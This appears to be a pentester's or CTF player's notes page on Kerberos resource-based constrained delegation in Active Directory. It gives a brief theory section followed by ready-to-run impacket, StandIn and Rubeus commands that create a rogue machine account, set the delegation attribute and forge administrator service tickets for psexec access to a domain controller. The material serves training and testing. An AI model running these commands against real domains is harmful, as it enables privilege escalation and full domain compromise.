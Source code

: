 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Resource-Based

{% hint style="info" %}
All information found below has been adapted from [Attl4s](https://attl4s.github.io/) [video-presentation](https://www.youtube.com/watch?v=vlKwCTvp5\_w) and its corresponding [slide deck](https://attl4s.github.io/assets/pdf/You\_do\_\(not\)\_Understand\_Kerberos\_Delegation.pdf).
{% endhint %}

## Theory

The trust is configured on the servive that receives delegated credentials (`msDS-AllowsToActOnBehalfOfOtherIdentity`), in this case, `sql01` instead of `web01` (Figure 1). We configure `sql01` to trust `web01` which means that the latter will be able to access the former on behalf of anyone; `web01` has `GenericAll` over `sql01`.

<figure><img src="../../../../.gitbook/assets/delegations_rbcd_vs_rcd.png" alt="" width="563"><figcaption><p>Figure 1: The main difference between CD and RBCD (<em>image taken from</em> <a href="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html"><em>here</em></a><em>)</em>.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/rbcd_wireshark.png" alt=""><figcaption><p>Figure 2: The RBCD process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>)</em>.</p></figcaption></figure>

## Exploitation

### Prerequisites

1. A domain account with `WRITE` access to the target SPN account for setting the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to it.
2. Permission to create a SPN account (`MachineAccountQuota`).

### Attack

1. Create a fake computer.
2. Set `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target.
3. Request impersonated Service Tickets (`S4U`) for the target computer.

#### Linux

{% code overflow="wrap" %}
```bash
# add a machine account
impacket-addcomputer -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-ip <ip> '<domain/user:pass>'
# set rbcd attribute
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'dc$' -action 'write' '<domain/user:pass>' -dc-ip 10.10.11.174
# generate ST for the admin account
impacket-getST -spn 'cifs/<fqdn>' -impersonate 'administrator' 'domain/ATTACKERSYSTEM$:Summer2018!'
```
{% endcode %}

For an example of the above process check [Support](../../../../boxes/easy/support.md#rbcd).

#### Windows

```powershell
# create a computer account
.\StandIn.exe --computer <name> --make
# get the SID of the computer account
Get-ADComputer -Filter * | Select-Object Name, SID
# set the RBCD attribute
.\StandIn.exe --computer <dc> --sid <sid>
```

We need the value of the password md4-encrypted for Rubeus.

```bash
python3
>>> import hashlib,binascii
>>> hash = hashlib.new('md4', "<pass>".encode('utf-16le')).digest()
>>> print(binascii.hexlify(hash))
```

{% code overflow="wrap" %}
```powershell
# generate the ST
.\Rubeus.exe s4u /user:<name> /rc4:<value> /impersonateuser:administrator /msdsspn:cifs/<fqdn> /nowrap /ptt
```
{% endcode %}

Although the ticket is generated, it does not work locally. Copy paste the b64 encoded block locally, decode it, convert it, and then use it.

```bash
# paste the ticket
nano ticket.b64
# decode it
cat ticket.b64 | base64 -d > ticket.kirbi
# convert it from kirbit to ccache for Linux usage
impacket-ticketConverter ticket.kirbi ticket.ccache
# export the ticket
export KRB5CCNAME=<ticket-path>
# use the ticket
impacket-psexec -k -no-pass <domain>/administrator@<fqdn> -dc-ip <ip>
```

## Resources

{% tabs %}
{% tab title="Demo" %}
{% embed url="https://youtu.be/xMTCZt5DRB0?t=504" %}
{% endtab %}

{% tab title="Deep Dive" %}
{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html" %}
{% endtab %}

{% tab title="Video-Presentation" %}
{% embed url="https://www.youtube.com/watch?v=vlKwCTvp5_w" %}
{% endtab %}
{% endtabs %}


